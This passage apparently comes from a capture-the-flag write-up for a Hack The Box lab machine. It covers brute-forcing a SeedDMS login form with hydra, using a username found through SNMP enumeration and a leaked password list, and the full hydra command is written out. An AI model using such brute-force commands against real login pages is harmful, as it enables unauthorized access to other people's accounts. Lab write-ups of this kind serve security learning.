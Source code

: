 
* Don't have version information.
* And it is a authenticated RCE, required login creds.

## Login Form Bruteforce with hydra

* Bruteforcing passowrd for username found in SNMP Enumeration: `michelle`.

using hydra to bruteforce passowrd.

![](screenshots/hydra-brute-body.png)

```bash
"<url>:<login-data>:<error>"
```

```bash
hydra -l michelle -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt dms-pit.htb http-post-form "/seeddms51x/seeddms/op/op.Login.php:referuri=%2Fseeddms51x%2Fseeddms%2Fout%2Fout.ViewFolder.php%3Ffolderid%3D1&login=^USER^&pwd=^PASS^&lang=:Error signing in."
```

![](screenshots/seeddms-hydra.png)
